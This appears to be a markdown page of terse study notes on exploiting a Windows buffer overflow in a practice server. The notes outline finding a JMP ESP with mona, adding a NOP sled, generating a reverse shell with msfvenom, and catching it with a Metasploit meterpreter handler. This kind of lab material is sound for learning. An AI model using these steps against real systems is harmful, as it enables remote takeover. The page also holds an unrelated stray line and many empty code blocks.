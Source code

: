 ## Windows Buffer Overflow
```
SECURE SERVER

port 9999
TRUN (value)

run imunity debugger
run program
attach program to debugger
play program
connect

re-run and attach
(bottom text box) -- !mona modules
use a dll with no protections
(bottom text box) -- !mona jmp -r esp -m "essfunc.dll"

*****NOP SLED*****

msfvenom for reverse shell

msfconsole:
use multi/handler
show options
set payload windws/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set lport 4444(whatever we set it to in msfvenom)
exploit
run server
run script
(shell)



Fully Auto-Semi-Automatic Assault Revolver

```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```

## 
```



```


